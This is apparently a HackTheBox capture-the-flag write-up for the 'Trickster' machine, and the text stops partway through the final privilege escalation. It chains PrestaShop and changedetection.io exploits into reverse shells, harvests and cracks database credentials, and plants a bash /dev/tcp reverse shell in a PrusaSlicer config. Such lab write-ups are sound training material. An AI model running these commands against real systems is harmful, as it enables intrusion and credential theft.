









## Introduction

This write-up details my approach to solving the HackTheBox machine "Trickster". The box demonstrates several vulnerabilities including PrestaShop RCE (CVE-2024-34716), privilege escalation through exposed credentials, and PrusaSlicer privilege escalation (CVE-2023-47268).

## Initial Reconnaissance

Starting with a Rustscan for open ports:

```bash
❯ rustscan --ulimit 5000 -a trickster.htb -- -sC -sV
```

The scan revealed two open ports:
- Port 22 (SSH)
- Port 80 (HTTP)

## Web Application Analysis

Going to the web-server's landing page:


Initial enumeration revealed a subdomain `shop.trickster.htb`.


The Contact us link takes us to a form and it also leaks the admin's email address: `admin@trickster.htb`:


Directory scanning uncovered an exposed Git repository:
```bash
❯ feroxbuster -u 'http://shop.trickster.htb/' -w ~/htb/code/SecLists/Discovery/Web-Content/raft-medium-all-lowercase.txt -C 404,503 --rate-limit 60

301      GET        9l       28w      323c http://shop.trickster.htb/.git => http://shop.trickster.htb/.git/
```

Using git-dumper to retrieve the repository:
```bash
❯ git-dumper http://shop.trickster.htb/.git/ ./git

❯ ls git
INSTALL.txt              LICENSES                 admin634ewutrx1jgitlooaj error500.html            init.php
Install_PrestaShop.html  Makefile                 autoload.php             index.php
```

The repository revealed an admin path: `admin634ewutrx1jgitlooaj`. Going to that URL fingerprints the PrestaShop version as 8.1.5:


## Initial Foothold

### PrestaShop Exploitation

Discovered PrestaShop 8.1.5 was vulnerable to CVE-2024-34716. Used the [publicly available exploit](https://github.com/aelmokhtar/CVE-2024-34716) which has this associated [write-up](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/).

After reading through the exploit PoC, we run it against our target:
```bash
❯ python exploit.py --url http://shop.trickster.htb/ --email admin@trickster.htb --local-ip 10.10.14.235 --admin-path admin634ewutrx1jgitlooaj

[X] Starting exploit with:
	Url: http://shop.trickster.htb/
	Email: admin@trickster.htb
	Local IP: 10.10.14.235
	Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 8181
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.129.234.38 - - [19/Jan/2025 14:00:21] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.129.234.38:37016.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 20:00:24 up 31 min,  0 users,  load average: 1.35, 0.49, 0.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Successfully obtained a reverse shell as www-data.

## Lateral Movement 

### Database Enumeration

Found a PrestaShop configuration file containing database credentials in a file named `parameters.php`:
```php
'database_user' => 'ps_user',
'database_password' => 'prest@shop_o'
```

Accessed database and retrieved user hashes:

```sql
mysql -u ps_user -p'prest@shop_o' -h 127.0.0.1 prestashop

use prestashop;
SELECT id_employee, email, passwd FROM ps_employee;
id_employee	email	passwd
1	admin@trickster.htb	$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
2	james@trickster.htb	$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Cracked James' hash using hashcat:
```bash
hashcat -m 3200 hashes.txt ./rockyou.txt

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
```

`james:alwaysandforever`, we're able to use these to login as the james user via ssh:
```shell
❯ ssh james@trickster.htb

james@trickster.htb's password:
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ cat user.txt
d3009be0b628228c45ec--snip--
```

## Docker Container Exploitation

We find a docker container's IP:
```shell
james@trickster:~$ arp -a
? (172.17.0.2) at 02:42:ac:11:00:02 [ether] on docker0
? (10.129.0.1) at 00:50:56:b9:2b:b5 [ether] on eth0
```

Used nc to find open ports on that IP from the target machine and find port 5000 is open:
```shell
james@trickster:~$ IFS=','
james@trickster:~$ for ports in $(cat top-1000.txt); do nc -zv 172.17.0.2 $ports 2>&1 | grep "succeeded"; done
Connection to 172.17.0.2 5000 port [tcp/*] succeeded!

james@trickster:~$ unset IFS
```

Since port 5000 is only listening locally, we can forward it to our attacker's machine:
```shell
❯ ssh -L 5000:172.17.0.2:5000 james@trickster.htb
```

We can run nmap on the port now that it's forwarded locally:
```bash
❯ nmap -sC -sV -T5 -A -p5000 -v localhost

PORT     STATE SERVICE VERSION
5000/tcp open  http    Python http.server 3.5 - 3.10
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
| http-title: Change Detection
|_Requested resource was /login?next=/
```

Access the web-server and we find it's running changedetection.io and we get a version, `v0.45.20`:


Google search reveals a [RCE exploit](https://www.exploit-db.com/exploits/52027).

Looks like we need to be authenticated for the exploit. I try the `alwaysandforever` password we cracked earlier, and that logs in:


The PoC isn't setup to work with authentication. Again, the simplistic route is taken and there is a setting to disable the password for the changedetection.io site:


We're now ready to run the exploit PoC:
```shell
❯ python 52027.py --url http://localhost:5000/ --port 4444 --ip 10.10.14.235 --notification "gets://10.10.14.235:8181/"
Obtained CSRF token: ImZhZjIwZTYxNWI4Y2QxYzEyYjgzNzFiYTdiODFmOWQxYWVlNTZiMzUi.Z46m4g.42HUmzp5VNU_dVanYaLFAVYmZhU
Redirect URL: /edit/82209419-79a7-4127-882b-cfc74d43fd6d?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 4444: Done
[.......\] Waiting for connections on :::4444
Listening on port 4444...
```

We can see the entry created a new detection watch entry:


Since we have access to the page, the easiest way to trigger the exploit is to click the new monitor that was created, goto the notifications tab, and click the `Send test notification` button.


This will cause the jinja template injection from the exploit to be executed and we'll catch the reverse shell that's sent back.

As soon as the button is clicked to send a test notification, we get our shell:
```shell
❯ python 52027.py --url http://localhost:5000/ --port 4444 --ip 10.10.14.235 --notification "gets://10.10.14.235:8181/"
Obtained CSRF token: ImZhZjIwZTYxNWI4Y2QxYzEyYjgzNzFiYTdiODFmOWQxYWVlNTZiMzUi.Z46m4g.42HUmzp5VNU_dVanYaLFAVYmZhU
Redirect URL: /edit/82209419-79a7-4127-882b-cfc74d43fd6d?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.129.11.198 on port 40996
Listening on port 4444...
Connection received!
[*] Switching to interactive mode
root@a4b9a36ae7ff:/app# $ whoami
whoami
root
```

We have root access, but only on the container where the changedetection.io deployment is running.

### Discovering Additional Credentials

During our initial enumeration on the machine, we saw this running process:
```shell
python ./changedetection.py -d /datastore
```

We did not have access as it was running as root and was in the container, but now we do:
```shell
root@a4b9a36ae7ff:/app# $ ls /datastore/Backups
ls /datastore/Backups
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
```

We transfer those to our attacker machine and unzip them. We see 3 files ending in .txt.br among other files:
```shell
❯ ls *.br
ba1fe8fcfb743ba16a136d805c38328f.txt.br f04f0732f120c0cc84a993ad99decb2c.txt.br
dd25d6c8b666e21ac6e596faa4d4a93d.txt.br
```

These are brotli compressed files, so we can decompress those as well and we're provided the txt files themselves. We find one of interest, `f04f0732f120c0cc84a993ad99decb2c.txt`. It's another parameters.php file that Prestashop uses but this time it has a different database login:
```php
'database_host' => '127.0.0.1' ,
'database_port' => '' ,
'database_name' => 'prestashop' ,
'database_user' => 'adam' ,
'database_password' => 'adam_admin992' ,
```

We can reuse these credentials to get ssh access on the target as adam:
```shell
❯ ssh adam@10.129.11.198
adam@10.129.11.198's password:
adam@trickster:~$ whoami
adam
```

## Privilege Escalation

### PrusaSlicer Exploitation

The adam user had sudo privileges to run PrusaSlicer:
```bash
(ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
```

We find a public exploit for [PrusaSlicer](https://www.exploit-db.com/exploits/51983).

This 3d printing binary allows for shell commands to run as part of it's configuration, specifically the `post_process` config entry in the `Metadata/Slic3r_PE.config` file.

To successfully exploit this, we'll first download the `/opt/PrusaSlicer/TRICKSTER.3mf` from the victim machine and copy it:
```shell
❯ cp TRICKSTER.3mf pwn.3mf
```

Next, we'll unzip the pwn.3mf since this is infact just a zipped file:
```shell
❯ unzip pwn.3mf
Archive:  pwn.3mf
  inflating: 3D/3dmodel.model
  inflating: Metadata/Slic3r_PE.config
  inflating: Metadata/Slic3r_PE_model.config
  inflating: Metadata/thumbnail.png
  inflating: [Content_Types].xml
  inflating: _rels/.rels
```

Next, we need to add our command to the `post_process` config line in the `Metadata/Slic3r_PE.config` as the exploit description explains, so the line will look like:
```shell
; post_process = "bash -c 'bash -i >& /dev/tcp/10.10.14.235/4444 0>&1' &"
```

It's important to background the reverse shell here, otherwise it'll die immediately when the pursaslicer command has finished. Next, we zip the contents back up into the 3mf file:
```shell
❯ zip -r pwn.3mf 3D Metadata \[Content_Types\].xml _rels
```

Serve the file for the target to download:
```shell
❯ ws
Serving HTTP on :: port 8181 (http://[::]:8181/) ...
```

Download the 3mf file onto the target:
```shell
adam@trickster:~$ wget http://10.10.14.235:8181/pwn.3mf
